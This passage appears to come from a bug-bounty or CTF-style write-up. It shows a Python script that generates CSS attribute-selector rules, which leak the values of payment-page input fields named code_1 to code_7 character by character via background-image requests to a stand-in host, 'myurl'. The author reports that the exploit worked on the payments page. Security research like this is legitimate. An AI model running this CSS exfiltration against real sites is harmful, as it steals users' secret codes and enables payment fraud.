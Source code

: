```python
}
"""
css3 = """
input[name^='code_3'][value^='%s'] {
    background-image: url('http://myurl/3%s');
}
"""
css4 = """
input[name^='code_4'][value^='%s'] {
    background-image: url('http://myurl/4%s');
}
"""
css5 = """
input[name^='code_5'][value^='%s'] {
    background-image: url('http://myurl/5%s');
}
"""
css6 = """
input[name^='code_6'][value^='%s'] {
    background-image: url('http://myurl/6%s');
}
"""
css7 = """
input[name^='code_7'][value^='%s'] {
    background-image: url('http://myurl/7%s');
}
"""


for letter in keyspace:
    print(css1 % (letter,letter))
    print(css2 % (letter,letter))
    print(css3 % (letter,letter))
    print(css4 % (letter,letter))
    print(css5 % (letter,letter))
    print(css6 % (letter,letter))
    print(css7 % (letter,letter))

```

-----------------------

Requesting the payments page again, intercepting the request, loading the css file via the request, waiting for the responses, extracting the leaked letters and?
SUCCESS!

## All bounties have been paid!

-----------------------

{:refdef: style="text-align: center;"}
[--- Back to Top ---](#intro)
{: refdef}